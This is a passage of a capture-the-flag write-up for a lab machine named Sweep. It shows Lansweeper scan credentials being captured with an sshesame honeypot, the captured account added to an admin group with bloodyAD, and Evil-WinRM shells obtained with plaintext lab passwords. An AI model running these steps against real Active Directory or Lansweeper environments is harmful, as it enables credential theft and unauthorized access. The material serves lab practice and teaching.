

We also gonna use sshesame but we need to edit the config file with our tun0 interface
```bash
┌──(penguin㉿0X0F)-[~/OSCP/Sweep]
└─$ cat ~/OSCP/Sweep/BD/sshesame.yaml
server:
  listen_address: 10.10.17.192:2022
```

then after clicking scan now option from Lansweeper


we can capture the credentials from the honeypot
```bash
┌──(penguin㉿0X0F)-[~/OSCP/Sweep/BD]
└─$ /home/penguin/go/bin/sshesame -config ~/OSCP/Sweep/BD/sshesame.yaml
INFO 2026/11/08 19:34:47 No host keys configured, using keys at "/home/penguin/.local/share/sshesame"
INFO 2026/11/08 19:34:47 Listening on 10.10.17.192:2022
WARNING 2026/11/08 19:35:05 Failed to accept connection: Failed to establish SSH server connection: EOF
WARNING 2026/11/08 19:35:12 Failed to accept connection: Failed to establish SSH server connection: ssh: disconnect, reason 11: Session closed
2026/11/08 19:35:12 [10.129.234.177:59520] authentication for user "svc_inventory_lnx" without credentials rejected
2026/11/08 19:35:13 [10.129.234.177:59520] authentication for user "svc_inventory_lnx" with password "0|5m-U6?/uAX" accepted
2026/11/08 19:35:13 [10.129.234.177:59520] connection with client version "SSH-2.0-RebexSSH_5.0.8372.0" established
2026/11/08 19:35:13 [10.129.234.177:59520] [channel 0] session requested
2026/11/08 19:35:13 [10.129.234.177:59520] [channel 0] command "uname" requested
2026/11/08 19:35:13 [10.129.234.177:59520] [channel 0] closed
2026/11/08 19:35:13 [10.129.234.177:59520] connection closed
2026/11/08 19:35:13 [10.129.234.177:59521] authentication for user "svc_inventory_lnx" without credentials rejected
2026/11/08 19:35:13 [10.129.234.177:59521] authentication for user "svc_inventory_lnx" with password "0|5m-U6?/uAX" accepted
2026/11/08 19:35:13 [10.129.234.177:59521] connection with client version "SSH-2.0-RebexSSH_5.0.8372.0" established
2026/11/08 19:35:13 [10.129.234.177:59521] [channel 0] session requested
2026/11/08 19:35:14 [10.129.234.177:59521] [channel 0] PTY using terminal "xterm" (size 80x25) requested
2026/11/08 19:35:14 [10.129.234.177:59521] [channel 0] shell requested
2026/11/08 19:35:14 [10.129.234.177:59521] [channel 0] input: "smclp"
2026/11/08 19:35:14 [10.129.234.177:59521] [channel 0] input: "show system1"
WARNING 2026/11/08 19:35:24 Error sending CRLF: EOF
2026/11/08 19:35:24 [10.129.234.177:59521] [channel 0] closed
2026/11/08 19:35:24 [10.129.234.177:59521] connection closed
```

`svc_inventory_lnx : 0|5m-U6?/uAX`



## Lateral Movement - Lansweeper Admins

we can add the user to Lansweeper admin group with bloodyAD as well as we can see the lans admin members are member of `Remote Management Users` 

```bash
┌──(penguin㉿0X0F)-[~/OSCP/Sweep/BD]
└─$ bloodyAD --host 10.129.234.177  -d sweep.vl  -u 'SVC_INVENTORY_LNX' -p '0|5m-U6?/uAX' add groupMember 'LANSWEEPER ADMINS' 'SVC_INVENTORY_LNX'
[+] SVC_INVENTORY_LNX added to LANSWEEPER ADMINS
```

now we can get shell using evil-winrm


```bash
┌──(penguin㉿0X0F)-[~/OSCP/Sweep/BD]
└─$ evil-winrm -i 10.129.234.177 -u "svc_inventory_lnx" -p '0|5m-U6?/uAX'
                                        
Evil-WinRM shell v3.9
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\svc_inventory_lnx\Documents> whoami
sweep\svc_inventory_lnx
*Evil-WinRM* PS C:\Users\svc_inventory_lnx\Documents> 
```

## Privilege Escalation - Administrator

now we can capture the first user flag , move to escalating to administrator 
we can decrypt the `svc_inventory_win` using an lansweeper tool


we can also see the user in administrator group as well


we can check if we have winrm access and bingo we do 


we can authenticate and capture root flag now !
```bash
┌──(penguin㉿0X0F)-[~/OSCP/Sweep/SharpLansweeperDecrypt]
└─$ evil-winrm -i 10.129.234.177 -u "svc_inventory_win" -p '4^56!sK&}eA?'

```


